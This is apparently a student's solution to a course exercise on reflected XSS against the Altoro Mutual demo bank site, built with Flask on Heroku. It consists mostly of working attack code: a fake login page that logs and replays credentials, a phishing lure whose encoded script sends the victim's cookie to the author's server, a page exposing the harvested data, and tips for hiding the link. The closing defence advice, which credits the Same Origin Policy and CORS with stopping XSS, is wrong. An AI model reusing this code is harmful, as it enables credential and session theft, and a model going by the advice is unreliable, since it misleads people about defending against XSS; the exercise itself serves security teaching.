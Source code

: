 # Exercise 2 solution
This exercise is realised using Python+Flask and deployed in heroku.(The links are live.)
---
## Question 1 - Reflected XSS when an user is not logged in, stealing their login credentials.
1. Look for a place, where you can conduct a reflected XSS attack against a user who is currently not logged in.
- Design an attack which fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards. (3P)
    1. The user is fed with the fake login page located at :[Login Page](https://mysterious-harbor-34550.herokuapp.com/login)
    The below code is implemented for the fake login and redirection.
    ```python
    @app.route('/login')
        def login():
            form_data='''<form id="foo" method="post" action="/handle_data">
            Username : <input type="text" name='uid' value="admin">
            Password : <input type="password" name='passw' value="">
            <input type="submit" name="submit" value="Submit">
            </form>
            '''
            return form_data
    ```
    2. Once the login data is filled and user clicks on submit, it writes the credentials on a notepad and then redirects the user to Altoro Mutual.
    The below code is implemented for writing the credentials and redirection.
    ```python
    @app.route('/handle_data', methods=['POST'])
        def handle_data():
            if request.method == 'POST':
                req = request.form
                uid = req.get('uid')
                passw = req.get('passw')
                data = 'uid: '+uid+' password: ' + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                data={"uid":uid,"passw":passw,"btnSubmit":"Login"}
                
                requests.post('http://demo.testfire.net/doLogin',data)
            
            return redirect('http://demo.testfire.net')
    ```
    3. Viewing the stored credentials is implemented using the below code.You can access the page here:[Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose)
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
    
- How can you hide the attack code to the victim? Implement an exemplary concealment. (1P)\
    When passing the attack code to the victim, the link can be concealed using any URL shortener, further to prevent user to easily recognise the script tags passed within an URL, we can also use URL encoder to conceal most of the script code in the URL.
## Walkthrough and links to view the first exercise.

Step 1: [Login Page](https://mysterious-harbor-34550.herokuapp.com/login)for the login page\
Step 2: [Exposed Login Credentials](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials\

/login - displays a form where user has to input login details, once logged in the site automatically redirects to demo.testfire.net
>/login will call /handle_data to store the parameters in a file and then redirect to Altoro Mutual

/expose - used to view all the collected cookie/login data from cookiedata.txt


---
## Question 2 - Reflected XSS when a user is logged in to steal the cookie
2. Look for a place, where you can conduct a reflected XSS attack against a user who is currently logged in.
- Design an attack which reads information about the user and send the information to a server of your choice. (2P)
    1. When the user is already logged in, this link has to be shared with the user, tempting the user to click on the malicious link.
    ```python
        @app.route('/loanapproval')
            def loanapproval():
                crosssite='''<!DOCTYPE html>
                            <html> 
                                <head> 
                                    <style> body { background-color:whitesmoke; } </style> 
                                    <title>Altoro Mutual</title> 
                                </head> 
                                    <body> 
                                
                                    <center> 
                                        <img src="./images/logo.gif" width="283" height="80/">
                                        <h1>You are granted loan by Altoro mutual</h1> 
                                        <p> 
                                            Your account has been granted an pre approved loan.
                                            To continue further, please <a href="http://demo.testfire.net/search.jsp?query=%3Cscript%3Evar+xsession%3D%22''' + request.url_root + '''ilikecookies%3F%22.concat%28document.cookie%29%3B+var+xhttp+%3D+new+XMLHttpRequest%28%29%3B+xhttp.open%28%22GET%22%2C+xsession%2C+true%29%3B+xhttp.send%28%29%3C%2Fscript%3E">click here.</a>
                                        </p> 
                                    </center> 
                                </body> 
                            </html>
                            '''
                return crosssite
    ```
    2. Once the user clicks on the link, a redirection is triggered to Altoro Mutual and the cookie is copied and sent back to the our malicious website as a get request to store on a notepad file, using below code.
    ```python
        @app.route('/ilikecookies')
            def ilikecookies():
                data = request.query_string.decode('unicode-escape') + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                return data
    ```
    3. Viewing the stored cookie is implemented using the below code. You can access the page here:[Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose)
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
## Walkthrough and links to view the second exercise.
Step 1: [Loan is now approved!](https://mysterious-harbor-34550.herokuapp.com/loanapproval) for the login page\
Step 2: [Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials

/loanapproval- this is the link that will be shared with as a man in the middle attack, once he clicks here /ilikecookies is called to write cookie data of the user in cookiedata.txt.

/expose - used to view all the collected cookie/login data from cookiedata.txt

---
## Question 3 - 
 3. What would be your advices for the Altoro Mutual bank in order to close the vulnerabilities or to make exploiting them impossible? (2P) 
    - The Altoro Mutual bank site is vulnerable to cross site scripting, if Same Origin Policy is implemented, then the exploits could be avoided.
    ![Same Origin Policy](./images/SOP.jpg)
    - Even if CORS is implemented, the sensitive data will not be vulnerable.
    ![CORS](./images/CORS.jpg)